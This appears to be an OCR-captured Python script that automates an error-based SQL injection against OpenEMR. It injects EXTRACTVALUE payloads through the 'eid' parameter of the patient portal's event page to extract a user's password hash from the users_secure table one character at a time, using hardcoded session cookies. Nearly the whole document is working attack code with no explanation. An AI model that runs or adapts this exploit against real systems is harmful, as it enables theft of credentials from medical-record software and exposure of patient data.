 ```python
#!/usr/bin/env python3

import requests, sys, signal
from argparse import ArgumentParser
import re 
from termcolor import colored
from pwn import *

def ctrl_c(sig,frame):
    print(colored("[!] Exiting...", "red"))
    sys.exit(1)

signal.signal(signal.SIGINT,ctrl_c)

def get_args():
    parser = ArgumentParser(prog="OPENEMR SQLI", description="SQL Injection Automation")
    parser.add_argument("-t", "--target", dest="target", required=True)
    args = parser.parse_args()

    return args.target

def start_sqli(target):

    main_url = f"http://{target}/portal/add_edit_event_user.php"

    cookies = {
        "OpenEMR": "rep74vbla2nihs94ab7m7tksqu", # modificar cookies
        "PHPSESSID": "fombcbq581l1anbq9a23j0lq8q"
        }

    get_password(main_url, cookies)
    
   
def get_password(main_url,cookies):
    index = 0
    
    p = log.progress("Retrieving Data")

    password = ""
    
    while True:

        r_data = {
            "eid": f"1 AND EXTRACTVALUE(0,CONCAT(0x5c,(select substring(password,{index},1) from openemr.users_secure limit 0,1)))",
            }

        r = requests.get(main_url, params=r_data, cookies=cookies)
   
        match = re.search(r"XPATH syntax error: '(.+?)'", r.text).group(1)
   
        index+=1
      
        if(match):
            password+=match
            password = re.sub(r'\\', '', password)
            p.status(password)
            continue
        
        else: 
            p.success("Got the password! Pass: " + password)
            break

```